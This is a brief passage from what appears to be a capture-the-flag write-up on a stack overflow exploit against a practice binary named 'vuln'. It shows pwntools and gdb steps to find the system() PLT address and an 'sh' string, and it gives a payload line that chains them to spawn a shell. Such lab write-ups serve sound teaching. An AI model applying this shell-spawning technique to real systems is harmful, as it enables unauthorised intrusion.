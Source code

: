 # Get address of system from plt

```

Because system function is used inside the program, we can get system address from PLT. Add these two lines in exploit script

binary = ELF("./vuln", checksec=False)
system_plt_address = binary.plt.system

```

# Get address of sh string

```
Find address of string which contains sh

gdb vuln
b main
r
find 0x8048000,0x8049000,"Check your stash"

Output: 0x8048607

x/s  0x8048607+14 => sh_address = 0x8048607 + 14

```
# Payload

```
payload = offset * b"A" + p32(system_plt_address) + 4 * b"B" + p32(sh_address)

```

